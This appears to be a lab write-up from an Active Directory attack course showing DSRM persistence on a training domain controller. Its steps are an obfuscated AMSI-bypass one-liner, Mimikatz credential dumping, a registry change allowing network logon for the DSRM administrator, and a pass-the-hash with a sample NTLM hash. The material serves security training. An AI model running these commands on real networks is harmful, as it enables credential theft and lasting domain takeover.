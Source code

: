 ```yaml
---
description: >-
  Task - Use Domain Admin privileges obtained earlier to abuse the DSRM
  credential for persistence.
---
```


# Obj 11 DSRM

{% hint style="success" %}
We can persist with administrative access on the DC once we have Domain Admin privileges by abusing the DSRM administrator. With the domain admin privileges obtained earlier, run the following commands on the DC to open a PowerShell remoting session. As always, remember that we could use other tools like SafetyKatz, BetterSafetyKatz etc.
{% endhint %}

### Start a new session on the DC

```
PS C:\AD\Tools\Tools> $sess = New-PSSession dcorp-dc.dollarcorp.moneycorp.local
PS C:\AD\Tools\Tools> Enter-PSSession -Session $sess
```

### Disable AMSI on the DC

```
[dcorp-dc.dollarcorp.moneycorp.local]:PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### Back on the host machine Load Mimikatz into memory on the $sess

```
PS C:\AD\Tools\Tools> Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess
```

### Enter back into the PSSession on the DC

```
PS C:\AD\Tools\Tools> Enter-PSSession -Session $sess
```

### Dump the creds of the DC with Mimikatz

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```

{% hint style="warning" %}
The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows:
{% endhint %}

### Modify the registry on the DC

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

{% hint style="warning" %}
Now from our local system we can just pass the hash for the DSRM administrator:
{% endhint %}

### Pass the hash

```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd  /run:powershell.exe"'
```

{% hint style="success" %}
We can now access the dcorp-dc directly from the new session.
{% endhint %}

### Access the DC

```
PS C:\Windows\System32> ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```
